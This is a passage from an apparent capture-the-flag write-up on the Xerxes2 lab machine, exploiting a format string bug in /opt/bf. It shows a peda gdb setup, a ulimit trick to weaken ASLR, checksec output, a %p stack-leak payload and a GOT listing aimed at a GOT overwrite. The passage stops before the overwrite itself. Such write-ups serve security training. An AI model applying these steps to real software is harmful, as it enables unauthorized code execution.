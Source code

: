 This meant I could provide my own format string and overwrite some memory address somewhere and hopefully gain control of the program. 

I use [peda](https://github.com/longld/peda) for exploit development on Linux, so I uploaded my peda directory over to delacroix's home directory and created the following .gdbinit file:

```text
source ~/peda/peda.py
set disable-randomization off
```

/proc/sys/kernel/randomize_va_space was set to 2, which meant ASLR was enabled. To make exploitation easier, I used a trick to disable the randomization of function addresses: 

```
ulimit -s unlimited
```

I loaded /opt/bf into gdb and ran checksec to see what other security measures had been compiled into the binary:

```
delacroix@xerxes2:~$ gdb -q /opt/bf
Reading symbols from /opt/bf...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
gdb-peda$ 
```

NX was enabled which meant I couldn't execute shellcode on the stack. Having gained a better idea of what I was up against, I started analyzing the program's behavior.

I knew it had format string bug, so I sent it a  format string that would print out the contents of the stack:

```
delacroix@xerxes2:~$ python -c 'print "AAAA" + "%p."*20' | /opt/bf `python -c 'print ",>"*100'`\#
AAAA0x40185ff4.(nil).(nil).0xbfef4448.0x400139c0.0x64.0xc8.0xbfeecf10.0x40185ff4.0xbfef4448.0x80486eb.0xbfef48be.0xbfeecf10.0x7530.(nil).0x41414141.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.
�����������������������������������delacroix@xerxes2:~$ 
```

The 16th item on the stack, 0x41414141, was the start of my format string. I could replace 0x41414141 with an address of a function referenced in the Global Offset Table (GOT), and then overwrite that reference to point to instructions I wanted to execute instead.

Using objdump, I looked at what functions were in the GOT: 

```
delacroix@xerxes2:~$ objdump -R /opt/bf

/opt/bf:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049a38 R_386_GLOB_DAT    __gmon_start__
08049a48 R_386_JUMP_SLOT   printf
08049a4c R_386_JUMP_SLOT   getchar
08049a50 R_386_JUMP_SLOT   __gmon_start__
08049a54 R_386_JUMP_SLOT   exit
08049a58 R_386_JUMP_SLOT   __libc_start_main
08049a5c R_386_JUMP_SLOT   memset
08049a60 R_386_JUMP_SLOT   putchar
```
